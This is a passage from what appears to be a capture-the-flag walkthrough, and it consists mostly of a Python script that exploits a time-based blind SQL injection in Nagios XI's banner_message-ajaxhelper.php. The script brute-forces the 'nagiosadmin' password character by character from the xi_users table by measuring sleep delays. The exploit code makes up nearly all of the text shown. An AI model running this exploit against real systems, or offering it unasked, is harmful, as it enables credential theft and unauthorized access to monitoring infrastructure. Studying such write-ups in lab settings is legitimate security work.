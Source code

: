 ```python
            payload = f"3 OR IF (('{password_attempt}'=(SELECT SUBSTRING((SELECT password FROM xi_users WHERE username = '{username}'), 1, {len(password_attempt)}))), sleep(1),false)"
            data = {
                "action": "acknowledge_banner_message",
                "id": payload,
            }
            start = time.time()
            _ = requests.post(
                f"https://{host}/nagiosxi/admin/banner_message-ajaxhelper.php",
                headers=headers,
                data=data,
                #proxies={"http": "http://127.0.0.1:8080"},
                cookies=cookies,
                verify=False
                )
            end = time.time()
            delay = end - start
            if delay < 1:
                continue
            else:
                print(f"[-] Anomaly request delay: {delay}")
                admin_password = password_attempt
                print(f"[+] Found char: {letter}\n")
                found = True
                break

    print(f"[-] Alphabet lap completed without found char\n")
    print(f"[+] Found password: {admin_password}")

find_username()
print("--------------------------")
find_password("nagiosadmin")
```

![](img/monitored13.png)
